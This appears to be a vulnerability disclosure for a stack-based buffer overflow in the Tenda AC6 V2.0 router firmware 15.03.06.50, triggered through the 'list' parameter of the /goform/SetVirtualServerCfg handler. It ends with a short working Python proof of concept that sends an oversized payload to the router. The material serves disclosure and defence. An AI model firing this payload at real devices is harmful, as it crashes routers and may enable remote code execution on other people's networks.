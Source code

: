 # Bug Report: Buffer Overflow in Tenda AC6 V2.0 15.03.06.50 Router
A critical stack-based buffer overflow vulnerability has been discovered in the Tenda AC6 V2.0 router firmware version 15.03.06.50. The vulnerability exists in the `/goform/SetVirtualServerCfg` HTTP request handler and can be exploited by remote attackers to achieve code execution or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 V2.0 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow exists in the HTTP request handler for the `/goform/SetVirtualServerCfg` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `list`.

![alt text](image-2.png)
![alt text](image-3.png)
![alt text](image-4.png)

## poc
![alt text](image.png)
![alt text](image-1.png)

## reproduce

```python
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'list': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = b'192.168.1.1,8080,80,' + 0xf0 * b'A'
send_payload("http://10.10.10.1/goform/SetVirtualServerCfg", payload)
```
